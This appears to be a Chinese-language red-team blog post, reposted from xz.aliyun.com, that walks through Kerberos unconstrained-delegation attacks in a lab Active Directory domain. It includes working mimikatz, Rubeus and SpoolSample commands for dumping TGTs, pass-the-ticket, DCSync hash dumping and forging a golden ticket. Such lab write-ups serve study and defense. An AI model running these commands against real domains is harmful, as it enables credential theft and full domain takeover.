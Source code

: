```yaml
---
title: "内网渗透-非约束委派攻击"
date: 2020-09-01 17:06:23 +0800
category: 内网渗透
tags: [内网,域]
excerpt: 内网渗透-非约束委派攻击
---
```

# 非约束委派攻击Unconstrained delegation
+ 接受委派的用户只能是服务账户或者计算机用户
## 条件
+ 配置了非约束委派的用户的userAccountControl 属性有个FLAG位 TrustedForDelegation
非约束委派的安全问题就是如果我们找到配置了非约束的委派的账户，比如这里面的JACKSON-PC$，并且通过一定手段拿下该账户的权限，然后诱导域管访问该JACKSON-PC$，这个时候域管会将自己TGT发送到JACKSON-PC$并缓存到LSASS中，那我们就可以从LSASS中导出域管的TGT票据，然后通过PTT，从而拥有域管的权限。
![](https://p5.ssl.qhimg.com/t0196779fc9a6d7b383.png)
![](https://p4.ssl.qhimg.com/t012bc3f8c98ee75003.png)
##  LDAP过滤规则
+ adfind
```
adfind.exe -b dc=sync,dc=net -f "(&(objectCategory=computer)(objectClass=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn
```
+ powershell
https://github.com/shigophilo/tools/blob/master/PowerView.ps1
```
Import-Module PowerView.ps1
Get-DomainComputer -Unconstrained -Properties distinguishedname,useraccountcontrol -Verbose | ft -a
```
## 原理
当user访问service1时，如果service1的服务账号开启了unconstrained delegation（非约束委派），则当user访问service1时会将user的TGT发送给service1并保存在内存中以备下次重用，然后service1 就可以利用这张TGT以user的身份去访问域内的任何服务（任何服务是指user能访问的服务）了
## 操作
操作环境：
+ 域：qiyou.com
+ 域控：windows server 2008R2，主机名：WIN-QFPHJSM1L7G，IP：192.168.141.145，用户：administrator
+ 域内主机：windows server 2008R2，主机名：DM2008，IP：192.168.141.183，用户：qiyou
注：在Windows系统中，只有服务账号和主机账号的属性才有委派功能，普通用户默认是没有的

现在我们将DM2008这个主机用户设置为非约束委派（注意是：主机用户而不是服务用户，多谢评论区的3t2ugg1e师傅指正）
![](https://xzfile.aliyuncs.com/media/upload/picture/20200229223822-22b87436-5b01-1.png)
然后我们以administrator的身份通过WinRM服务远程连接DM2008
注：常见的连接方式还有：MSSQL和IIS，不过我们这里为了方便演示就直接用WinRM了
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211111033-1160a96c-4c7c-1.png)
这个时候域管理员的TGT已经缓存在DM2008了，我们用mimikatz即可dump出来
```
privilege::debug 
sekurlsa::tickets /export
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211110803-b7eafc16-4c7b-1.png)
可以看到[0;1622d8]-2-0-60a00000-Administrator@krbtgt-QIYOU.COM.kirbi即为域管理administrator的TGT

此时我们访问域控是被拒绝的
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211112007-67121a34-4c7d-1.png)
然后通过ptt将TGT注入到当前会话中
```
kerberos::ptt [0;1622d8]-2-0-60a00000-Administrator@krbtgt-QIYOU.COM.kirbi
```
成功访问
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211111640-eb9fe46c-4c7c-1.png)
注意：访问域控要用主机名或者是FQDN，使用IP还是会提示拒绝访问
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211112457-14599c12-4c7e-1.png)
如果想执行命令的话，我们可以用WinRM服务来远程连接域控服务器
```
Enter-PSSession -ComputerName WIN-QFPHJSM1L7G
```
+ -ComputerName指定主机名
+ 如果你WinRM服务端口改了的话，可以用-Port指定WinRM端口，默认是5985
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211112640-514590cc-4c7e-1.png)
注：Windows Server 2012及以上默认是开启WinRM服务的，Windows Server 2008 R2需要`winrm quickconfig -q`来启动WinRM服务，还要注意一点就是这条命令运行后会自动添加防火墙策略，防火墙默认会放行5985端口的。

## 非约束委派+Spooler打印机服务
如果只是单纯的非约束委派话需要管理员主动连接，所以在实战环境利用比较鸡肋。

利用非约束委派+Spooler打印机服务可以强制指定的主机进行连接，这个利用场景是tifkin_，enigma0x3和harmj0y在DerbyCon 2018提出的

演讲PPT：[地址](https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory)

+ 利用原理：利用Windows打印系统远程协议（MS-RPRN）中的一种旧的但是默认启用的方法，在该方法中，域用户可以使用MS-RPRN RpcRemoteFindFirstPrinterChangeNotification（Ex）方法强制任何运行了Spooler服务的计算机以通过Kerberos或NTLM对攻击者选择的目标进行身份验证。
请求过程如下：
![](https://xzfile.aliyuncs.com/media/upload/picture/20200210232526-900988fa-4c19-1.png)
图来源于：http://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/

注：Print Spooler服务默认是自动运行的
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211000739-75ec4826-4c1f-1.png)
注：我在windows server 2008上操作没有成功，不知道是我的问题还是有版本限制，按照上面的原理来说应该是没有版本限制的，不过把域环境重新配置了一遍，域控换成了windows server 2012R2就成功了

操作环境：
+ 域：test.local
+ 域控：系统：Windows server 2012R2主机名：DM2012，ip：192.168.141.134
+ 域内主机：系统：windows 10，主机名：win10，ip：192.168.141.165
这个实现了前提是：需要获取一台主机账户开启了非约束委派域内机器的权限

我们给win10这个主机账户开启非约束委派
![](https://xzfile.aliyuncs.com/media/upload/picture/20200210231239-c749c250-4c17-1.png)
注：是主机账户开启非约束委派，而不是服务用户

tifkin_在他的github上开源了POC：https://github.com/leechristensen/SpoolSample

向DM2012的Spooler服务发送请求，强制其访问win10进行身份验证
```
SpoolSample.exe dm2012 win10
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211001236-272ec7d0-4c20-1.png)
我们可以用Rubeus来监听Event ID为4624事件，这样可以第一时间截取到域控的TGT

每隔一秒监听一次来自dm2012的登陆（需要本地管理员权限）
```
Rubeus.exe monitor /interval:1 /filteruser:dm2012$
```
注：Rubeus.exe捕获到的TGT是base64编码的，但是我们不需要解码，Rubeus可以直接将base64编码的票据直接注入到内存中
```
Rubeus.exe ptt /ticket:base64
```
因为之前域内主机win10的安全日志被我搞崩了，所以这里就不演示了
![](https://xzfile.aliyuncs.com/media/upload/picture/20200210222255-d446d31e-4c10-1.png)
因为我们Rubeus监听TGT用不了，所以我们可以用mimikatz导出TGT
```
privilege::debug
sekurlsa::tickets /export
```
可以发现成功导出来自DM2012$的TGT
![](https://xzfile.aliyuncs.com/media/upload/picture/20200210220650-94f45f80-4c0e-1.png)
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211002536-f7dcc0c0-4c21-1.png)
得到TGT之后，我们用ptt将票据注入到当前会话后，可以用dcsync导出域控中所有用户的hash，然后用krbtgt用户的hash生成黄金票据
```
kerberos::ptt [0;862bdd]-2-0-60a10000-DM2012$@krbtgt-TEST.LOCAL.kirbi
lsadump::dcsync /domain:test.local /all /csv
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211002107-57633dd6-4c21-1.png)
得到krbtgt用户的hash之后生成一张administrator的黄金票据
```
kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-662417213-3583657854-423750704 /krbtgt:683545df56ea57b168d0ad090e209616 /ptt
```
成功以administrator的身份访问域控
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211004433-9d945bd4-4c24-1.png)
执行命令可以用WinRM服务来远程连接域控
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211004601-d257f3e4-4c24-1.png)
关于Spooler服务的利用还有CVE-2019-1040，不过这个是基于资源的约束委派，有兴趣的同学可以去了解一下
[原文](https://xz.aliyun.com/t/7217#toc-5)

